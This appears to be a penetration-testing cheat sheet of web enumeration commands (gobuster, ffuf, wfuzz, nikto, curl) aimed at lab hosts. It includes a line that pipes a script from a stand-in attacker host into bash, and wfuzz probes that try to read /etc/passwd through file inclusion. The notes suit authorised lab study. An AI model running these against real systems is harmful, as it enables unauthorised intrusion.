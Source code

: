 ```
echo -ne "GET / HTTP/1.1\r\nHost: google.com\r\nConnection: close\r\n\r\n"
```

![](Pasted%20image%2020230923182239.png)

```
GET / HTTP/1.1\r\n
Host: google.com\r\n
Connection: close\r\n\r\n
```

```
\r (carriage return or 0x0d)
\n (new line or 0x0a)
```

```
nikto -h url
```

dirbuster
gobuster
feroxbuster

```
searchsploit mod ssl 2
```

```
dirb url
```

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u url/FUZZ
```

```
gobuster dir -u 192.168.50.20 -w /usr/share/wordlists/dirb/common.txt -t
5
```

```
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern
```

```
gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w
/usr/share/wordlists/dirb/small.txt
```

```
gobuster dir -u http://192.168.50.242 -w /usr/share/wordlists/dirb/common.txt -o mailsrv1/gobuster -x txt,pdf,config
```

```
gobuster dir -w /usr/share/wordlists/dirb/big.txt --url http://academy.htb/ -x .php, .txt -o gobuster-result.txt
```

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x php -u http://academy.htb -o gobuster-dir-root.log
```

```
gobuster dir -u http://$IP -w /usr/share/dirb/wordlists/common.txt | tee enum/gobuster-dir-p80.log
```

```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://academy.htb -o gobuster-vhost-sub.txt
```

```
grep \.git /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
```

![](Pasted%20image%2020231014122728.png)

```
curl -v 'url' -X POST --data '<key><value>>please</value></key>\n' -H 'Content-Type:application/xml'
```

```
curl -v 'url' -X POST --data '{"key": "please"}' -H 'Content-Type:application/json' --trace-ascii -
```

```
curl -v 'url' -X POST --data 'key: please' -H 'Content-Type:application/yaml' --trace-ascii -
```

```
curl attackerIP:8000/linpeas.sh | bash
```

```
python3 -m http.server
```

https://book.hacktricks.xyz/pentesting-web/web-tool-wfuzz

```
wfuzz -u http://192.168.237.104/file.php?FUZZ=/etc/passwd --hw 14 -w /usr/share/wordlists/dirb/big.txt
```

```
wfuzz -u http://192.168.237.104/file.php?FUZZ=/etc/passwd --hw 14 -w /usr/share/wordlists/dirb/big.txt
```

### Directory & Files Bruteforce

*Filter by whitelisting codes*

```
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --sc 200,202,204,301,302,307,403 http://example.com/uploads/FUZZ
```

```
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://vulnerable.site/FUZZ
```

